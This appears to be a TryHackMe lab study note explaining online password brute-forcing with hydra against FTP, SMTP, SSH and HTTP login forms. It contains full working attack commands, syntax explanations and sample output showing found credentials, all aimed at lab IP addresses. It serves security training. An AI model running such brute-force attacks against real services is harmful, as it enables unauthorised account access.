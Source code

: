 ```yaml
---
title: Online Password Attacks 🏯
tags:
  - TryHackMe
  - Theory
---
```

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using hydra which is a common tool used in attacking logins for various network services.  

## Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.  

## FTP  

In the following scenario, we will perform a brute-force attack against an FTP server. By checking the hydra help options, we know the syntax of attacking the FTP server is as follows:

````shell           
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
````

`-l ftp` we are specifying a single username, use `-L` for a username wordlist

`-P Path` specifying the full path of wordlist, you can specify a single password by using `-p` 

`ftp://10.10.x.x` the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

## SMTP  

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

````shell           
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
````

## SSH  

SSH brute-forcing can be common if your server is accessible to the Internet. Hydra supports many protocols, including SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.

````shell           
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
````

## HTTP login pages

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: `hydra http-get-form -U`, we can see that hydra has the following syntax for the http-get-form option:

`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

````shell           
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
````

`-l admin`  we are specifying a single username, use `-L` for a username wordlist

`-P Path` specifying the full path of wordlist, you can specify a single password by using -p.

`10.10.x.x` the IP address or the fully qualified domain name (FQDN) of the target.

`http-get-form` the type of HTTP request, which can be either `http-get-form` or `http-post-form`

Next, we specify the URL, path, and conditions that are split using `:`

`login-get/index.php` the path of the login page on the target webserver.

`username=^USER^&password=^PASS^` the parameters to brute-force, we inject `^USER^` to brute force usernames and `^PASS^` for passwords from the specified dictionary.

The following section is important to eliminate false positives by specifying the 'failed' condition with p`F=`.

And success conditions, `S=`. You will have more information about these conditions by analyzing the webpage or in the enumeration stage! What you set for these values depends on the response you receive back from the server for a failed login attempt and a successful login attempt. For example, if you receive a message on the webpage 'Invalid password' after a failed login, set `F=Invalid Password`.

Or for example, during the enumeration, we found that the webserver serves `logout.php`. After logging into the login page with valid credentials, we could guess that we will have logout.php somewhere on the page. Therefore, we could tell hydra to look for the text `logout.php` within the HTML for every request.

`S=logout.php` the success condition to identify the valid credentials

`-f` to stop the brute-forcing attacks after finding a valid username and password

You can try it out on the attached VM by visiting `http://10.10.188.205/login-get/index.php`. Make sure to deploy the attached VM if you haven't already to answer the questions below.

Finally, it is worth it to check other online password attacks tools to expand your knowledge, such as:  

- `Medusa`
- `Ncrack`
- `others!`

*NOTE: Simple Mail Transfer Protocol (SMTP) is a protocol used to send the email to an SMTP server, more specifically to a Mail Submission Agent (MSA) or a Mail Transfer Agent (MTA).*

*NOTE: to make an **hydra** password crack to a post form: `hydra -l burgess -P burgess.txt 10.10.188.205 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -I`*


